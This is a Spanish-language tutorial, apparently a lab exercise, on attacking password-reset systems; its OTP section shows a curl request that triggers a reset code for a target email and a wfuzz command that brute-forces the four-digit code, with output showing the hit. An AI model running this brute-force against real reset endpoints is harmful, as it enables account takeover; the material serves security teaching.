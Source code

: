 ![portada_reset_password](img/reset_password_portada.png)

# Atacando a los sistemas de restablecimiento de contraseñas
Sabemos que las contraseñas son necesarias para la autenticación en diferentes tipos de sistemas. Las empresas, cada vez más por suerte, cuidan que sus políticas de contraseñas sean lo suficientemente robustas para forzar a sus empleados a que sigan las mejores prácticas e intentar impedir que un atacante pueda adivinirlas por fuerza bruta.

Sin embargo, es bastante común que las empresas pasen por alto securizar los mecanismos de restablecimiento de contraseñas que ofrecen a sus empleados, usados por ejemplo, ante un olvido de la misma. 

En este artículo, veremos cómo aprovecharnos de esta circunstancia en dos métodos frecuentemente usados: Preguntas/Respuestas y OTP.

# Preguntas/Respuestas

# OTP
Primero, explicaremos qué es OTP. OTP, del inglés One-Time Password, es una contraseña de un solo uso y, por tanto, pierde su validez después de su uso. Habitualmente, es usada como parte de de una autenticación de doble factor. Esta contraseña suele enviarse por correo electrónico o por SMS, para que pueda ser introducida por el interesado.

A continuación, simularemos un ataque a un mecacanismo OTP que no ha sido securizado convenientemente. Partiremos de un correo electrónico obtenido en fases previas de enumeración: MasonJenkins@ymail.com

Según podemos ver en la imagen, tenemos acceso a un punto final de una API que permite restablecer la contraseña de un usuario, añadiendo como parámetros el correo electrónico asociado, la password OTP y la nueva clave. En la descripción del propio punto final, vemos que la clave OTP supuestamente tiene una duración máxima de 5 minutos. Dado que no tenemos acceso a la cuenta de correo electrónico, intentaremos un ataque por fuerza bruta al mecanismo OTP que deberá completarse antes de esos 5 minutos.

![api_otp](img/reset_password_2.png)

Tenemos a nuestra disposición otro método de la API, que permite el envío de la clave OTP a una dirección de correo electrónico asociada a una cuenta de usuario.

![api_otp](img/reset_password_1.png)

```bash
# curl -X 'POST' 'http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets/email-otps' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"Email": "MasonJenkins@ymail.com"}'
{"SuccessStatus":true}
```

```bash
# wfuzz -c --hh 23  --hc 404 -u http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets -z range,1-9999 -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "NewPassword": "Test1234", "OTP":"FUZZ"}'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================
000007435:   200        0 L      1 W        22 Ch       "7435"                                                                                                                                                            
Total time: 51.76655
Processed Requests: 9999
Filtered Requests: 9998
Requests/sec.: 193.1555

```







